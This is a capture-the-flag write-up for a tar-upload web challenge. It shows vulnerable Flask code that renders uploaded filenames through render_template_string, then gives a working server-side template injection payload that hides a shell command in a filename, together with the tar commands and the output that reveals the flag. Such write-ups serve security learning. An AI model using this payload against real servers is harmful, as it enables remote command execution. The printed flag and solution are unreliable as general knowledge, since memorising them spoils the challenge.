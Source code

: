 # File Sharing Portal

Welcome to the file sharing portal! We only support tar files! Author: NoobMaster + NoobHacker

# Flag
```
n00bz{n3v3r_7rus71ng_t4r_4g41n!_b77524695259}
```

# Solution
The website allows us to upload a `.tar` file, which will help us extract its contents, displaying the files and allowing us to read the contents.

The following code is used to display the files after extraction:

```py
@app.route('/view/<name>')
def view(name):
    if not all([i in "abcdef1234567890" for i in name]):
        return render_template_string("<p>Error!</p>")
        #print(os.popen(f'ls ./uploads/{name}').read())
            #print(name)
    files = os.listdir(f"./uploads/{name}")
    out = '<h1>Files</h1><br>'
    files.remove(f'{name}.tar')  # Remove the tar file from the list
    for i in files:
        out += f'<a href="/read/{name}/{i}">{i}</a>'    # SSTI vuln
       # except:
    return render_template_string(out)
```

There is an SSTI vulnerability when the filenames are displayed. By modifying the filename to our SSTI payload we can run system commands such as listing directory and reading the flag.

Payload:
```bash
touch "{{''.__class__.__mro__[1].__subclasses__()[351]('cat flag_15b726a24e04cc6413cb15b9d91e548948dac073b85c33f82495b10e9efe2c6e.txt',shell=True,stdout=-1).communicate()[0].strip()}}"
touch "otherfile"
tar -cvf output.tar *
```

Result:
```html
<h1>Files</h1><br><a href="/read/5bf11fe6800e3d8312dc3353c000eb8dd0c0592d9395ae26406f55c24da0e673/otherfile">otherfile</a><a href="/read/5bf11fe6800e3d8312dc3353c000eb8dd0c0592d9395ae26406f55c24da0e673/b&#39;n00bz{n3v3r_7rus71ng_t4r_4g41n!_b77524695259}&#39;">b&#39;n00bz{n3v3r_7rus71ng_t4r_4g41n!_b77524695259}&#39;</a>
```